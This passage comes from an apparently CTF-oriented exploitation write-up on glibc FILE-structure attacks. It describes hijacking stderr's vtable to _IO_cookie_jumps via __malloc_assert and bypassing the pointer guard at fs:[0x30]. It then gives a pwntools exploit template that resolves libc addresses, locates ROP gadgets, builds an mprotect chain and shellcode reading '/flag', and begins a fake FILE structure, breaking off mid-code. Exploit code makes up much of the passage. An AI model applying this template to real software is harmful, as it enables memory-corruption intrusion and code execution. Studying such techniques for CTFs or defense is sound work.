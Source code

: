 And when we overwrite the target at `fs:[0x30]`, this value of `__pointer_chk_guard_local` won't be affected.

### Attack Chain

#### __malloc_assert

If we choose to trigger `__malloc_assert` to start I/O operation, and hijack the vtable pointer as `_IO_cookie_jumps`, `fflush(stderr)` will dive into the IO struct as following:

```
stderr->_IO_cookie_jumps->_IO_file_xsputn
```

Once we hijack the vtable as `_IO_cookie_jumps+0x40`, then:

```
stderr->_IO_cookie_jumps+0x40->_IO_cookie_write
```

**Attack Chain**:

```
__malloc_assert
	fflush(stderr)
        _IO_default_xsputn (before)
            _IO_cookie_write (after)
                _IO_cookie_write
                    write_cb (cfile->__cookie, buf, size)
```

## EXP Template

```py
# Bullets
stderr           = libc_base + libc.sym['stderr']
_IO_cookie_jumps = libc_base + libc.sym['_IO_cookie_jumps']
ptr_guard_addr   = libc_base - 0x28c0 + 0x30 # fs:[0x30]
setcontext       = libc_base + libc.sym['setcontext'] + 61
mprotect         = libc_base + libc.sym['mprotect']
gksh_gadget      = libc_base + 0x146020 # mov rdx, [rdi + 8]; mov [rsp], rax; call [rdx + 0x20]; 
pa(stderr)
pa(ptr_guard_addr)
pa(_IO_cookie_jumps)
pa(setcontext)
pa(gksh_gadget)

rop 	    = ROP(libc)
p_rdi_r     = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
p_rsi_r     = libc_base + rop.find_gadget(['pop rsi', 'ret'])[0]
p_rdx_rbx_r = libc_base + rop.find_gadget(['pop rdx', 'pop rbx', 'ret'])[0]
p_rax_r     = libc_base + rop.find_gadget(['pop rax', 'ret'])[0]
syscall_r   = libc_base + rop.find_gadget(['syscall', 'ret'])[0]
ret         = libc_base + rop.find_gadget(['ret'])[0]

fakeIO_addr    = 0xdeadbeef
mprotect_chain = [p_rdi_r, fakeIO_addr&(~0xfff), p_rsi_r, 0x4000, \
                p_rdx_rbx_r, 7, 0, mprotect, fakeIO_addr+0x140]	# 0x48 bytes
orw_chain      = asm(shellcraft.cat('/flag'))	# 0x23 bytes
pa(fakeIO_addr)

# FSOP
pl = flat({
    # fake stderr & _IO_cookie_file  
    0: {  
        0x0:  0,	# _flag
        0x20: 0,	# _IO_write_base
```